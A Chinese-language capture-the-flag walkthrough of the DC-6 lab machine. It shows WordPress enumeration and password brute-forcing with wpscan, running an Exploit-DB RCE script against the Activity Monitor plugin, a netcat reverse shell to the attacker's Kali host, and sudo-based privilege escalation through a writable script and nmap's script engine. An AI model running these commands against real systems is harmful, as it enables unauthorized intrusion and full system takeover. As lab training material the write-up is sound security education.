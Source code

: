```yaml
---
title: DC-6靶场练习
date: 2021-12-24 15:05:43
tags: DC靶场系列
cover: https://raw.githubusercontent.com/todis21/image/main/img/wallhaven-mpx5m8_1920x1080.png
---
```


# DC-6靶场练习

## 环境

kali:192.168.10.128

dc-6: 192.168.10.174

## 信息收集

```
nmap 192.168.10.0/24
```

<img src="https://raw.githubusercontent.com/todis21/image/main/img/image-20211224152919978.png" alt="image-20211224152919978" style="zoom:150%;" />

这里可以看到靶机已经开了22端口和80端口

再用下面命令查看是否还开着其他端口

![image-20211224153405661](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224153405661.png)



打开web端，打开`http://192.168.10.174/`,发现网页会跳转到`http://wordy/`并且打不开

<img src="https://raw.githubusercontent.com/todis21/image/main/img/image-20211224153757108.png" alt="image-20211224153757108" style="zoom:80%;" />

修改hosts文件，在文件里面添加

```
192.168.10.174 wordy
```



![image-20211224154009380](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224154009380.png)

修改后保存，重新打开`http://wordy/`

![image-20211224154113236](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224154113236.png)

打开成功

这是个WordPress的站点，`WordPress 5.1.1`

![image-20211224154354895](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224154354895.png)

## 目录扫描

```
dirb http://wordy/
```

![image-20211224154743386](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224154743386.png)

找到了后台登录的目录

```
http://wordy/wp-admin/
```

![image-20211224154933030](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224154933030.png)

## 爆破后台账号密码

通过wpscan爆破后台用户名

```
wpscan --url http://wordy/ -e u
```



![image-20211224170856976](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224170856976.png)

```
admin mark graham sarah jens
```

将其保存在user.txt中

![image-20211224173400687](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224173400687.png)

有密码，还需要密码

作者为了降低难度，在vulhub给出了提示:dc-6的字典是可以被筛检的，可以大大减少我们爆破的时间。

![image-20211224174546662](https://raw.githubusercontent.com/todis21/image/main/img/image-20211224174546662.png)

```
zcat /usr/share/wordlists/rockyou.txt.gz | grep k01 > password.txt
```

运行命令后得到的字典如下

![image-20211225133149850](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225133149850.png)

然后就是爆破:

```
wpscan --url http://wordy/ -P password.txt -U user.txt
```

获得账号密码:   mark / helpdesk01

<img src="https://raw.githubusercontent.com/todis21/image/main/img/image-20211225134221550.png" alt="image-20211225134221550" style="zoom:150%;" />

登录后台：

![image-20211225134635757](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225134635757.png)

## 漏洞利用

来到后台后，发现插件activity monitor，并且它的功能是记录各用户的操作记录

盲猜这个插件存在漏洞

寻找这个插件的漏洞脚本，能找到说明真的是存在漏洞

```
searchsploit activity monitor 
```

![image-20211225204259319](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225204259319.png)

找到一个RCE的脚本，即第四条:

```
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2) | php/webapps/50110.py
```

尝试利用这个脚本

先找到这个脚本的路径

```
find / -name 50110.py
```

得到路径

```
/usr/share/exploitdb/exploits/php/webapps/50110.py
```

执行脚本:

```
python3 /usr/share/exploitdb/exploits/php/webapps/50110.py
```

执行后需要输入目标ip地址和后台登录的账号密码，执行成功后会返回一个shell

![image-20211225204944700](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225204944700.png)



拿到shell后，进行反弹shell到kali

```
kali：nc -lvvp 1234
dc-6: nc -e /bin/bash 192.168.10.128 1234
连接成功后改善一下交互交互界面
kali: python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20211225205500667](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225205500667.png)

![image-20211225205508943](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225205508943.png)

反弹shell成功后，就是寻找提权线索

来到home目录，在mark/stuff中找到一个things-to-do.txt,内容如下：

```
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

在这里可以知道另一个用户的账号密码：

```
graham  / GSo7isUM1D4
```

切换用户

```
su graham
```

<img src="https://raw.githubusercontent.com/todis21/image/main/img/image-20211225211453645.png" alt="image-20211225211453645" style="zoom: 200%;" />

然后在/home/jens中找到一个backups.sh,内容是

```
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
```

大概的意思是对web的文件进行打包备份

查看该用户能执行的操作

```
sudo -l
```

![image-20211225213635814](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225213635814.png)

可以看到该用户可以执行backups.sh

向backups.sh文件中写入”/bin/bash”，并以jens用户去执行该脚本

```
echo "/bin/bash" >> backups.sh
sudo -u jens ./backups.sh
```

![image-20211225215649548](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225215649548.png)

执行成功后，切换到了jens用户

查看这个用户可以执行的操作

```
sudo -l
```

![image-20211225220346275](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225220346275.png)

该用户可以执行nmap,可以通过namp提权

```
echo 'os.execute("/bin/sh")' >getShell
sudo nmap --script=getShell
```

![image-20211225221642374](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225221642374.png)

提权成功，寻找flag,按照dc靶场的惯例，flag在root文件夹下

```
cd /root
ls
cat theflag.txt
```

![image-20211225221826625](https://raw.githubusercontent.com/todis21/image/main/img/image-20211225221826625.png)

